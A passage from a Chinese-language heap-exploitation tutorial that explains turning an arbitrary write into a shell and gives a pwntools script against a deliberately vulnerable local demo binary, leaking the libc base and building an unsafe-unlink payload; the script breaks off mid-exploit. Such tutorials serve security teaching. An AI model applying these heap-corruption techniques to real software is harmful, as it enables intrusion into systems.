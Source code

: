 &emsp;&emsp;<font size=2>再次使用"重新编辑笔记功能"，效果就等同于向0x6161616161616161地址处写入任意数据了，如果这个不是0x6161616161616161而是一些敏感的地址呢？比如\_\_malloc_hook？比如got表？getshell就变得非常简单了:D</font></br>

&emsp;&emsp;<font size=2>用我们的漏洞大礼包程序来试试getshell的话，利用pwntools脚本如下：</font></br>

```python
from pwn import *

p=process('./demo')

context.log_level=1

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='Choice:'

def add(size,content=''):
    sla(menu,'1')
    sla('input your size:',str(size))
    sla('input your message:',content)

def delete(index):
    sla(menu,'2')
    sla('input the index: ',str(index))

def edit(index,content):
    sla(menu,'3')
    sla('input the index: ',str(index))
    sla('input your content:',content)

def show(index):
    sla(menu,'4')
    sla('input the index: ',str(index))

chunk_link=0x6020c0

#=========================
# leak libc_base

add(0x100)
add(0x100)
delete(0)
show(0)
rv('content:')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
success("libc base:"+hex(libc_base))
delete(1)

#===================================
# now exploit
add(0x100)      #2
add(0x100)      #3
add(0x20)       #4

# fake the fd and bk to chunk_link
payload=p64(0)*2+p64(chunk_link-0x18)+p64(chunk_link-0x10)
payload=payload.ljust(0x100,'a')

#edit nextchunk's pre_size and prev_inuse
payload+=p64(0x100)+p64(0x110)
edit(2,payload)
```